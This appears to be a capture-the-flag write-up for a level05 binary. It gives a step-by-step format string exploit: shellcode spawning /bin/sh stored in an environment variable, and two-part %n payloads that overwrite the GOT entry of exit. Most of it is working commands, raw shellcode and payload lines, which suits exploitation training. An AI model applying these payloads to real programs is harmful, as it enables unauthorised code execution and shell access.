


In this level we have a simple program, the program simply converts our string to lowercase then prints it using printf(), a regular format string exploit would suffice.
to confirm we can print some %x and we'll see memory printed, now let's find the index of a known  address such as AAAABBBB:

we see that the 61616161("AAAA" turned to lowercase) is printed in the 10th position.

since the function doesn't return anything and calls exit() we will overwrite the exit function instead, we will write our shellcode in env:

export SHCODE=$(python -c 'print("\x90"*100+"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')

then we look for the exit address we will be overwriting address:
0x08048513 <+207>:	call   0x8048370 <exit@plt>
disass 0x8048370
Dump of assembler code for function exit@plt:
0x08048370 <+0>:	jmp    ***0x80497e0**
x *0x80497e0
0x8048376 <exit@plt+6>:	0x00001868

printf *0x08048507

python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57010d%10$n" + "%8517d%11$n")' > payload
cat payload - | ./level05

then we'll look for our env variable where we put our shellcode:

x/200s $esp

now we got our env variable address 0xffffdea8, and since we have many NOP slides we are very safe adding some bytes to the address to avoid any memory shifting difference when running the program inside and outside gdb so we consider our final env variable address will be "0xffffdeba".

now we only have to write 4294958778(0xffffdeba) characters to the exit@plt address to overwrite, the problem here is that writing this much characters is impossible since it exceeds the max width value, the trick here will be to split our writing into two parts, eg : printing 0xdeba to 0x80497e0 then printing 0xffff to 0x80497e0+2 so in memory they'll be concatenated as 0xffffdeba

our payload will be as follows:

python -c 'print("\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%57014d%10$n"+"%8513d%11$n")' > payload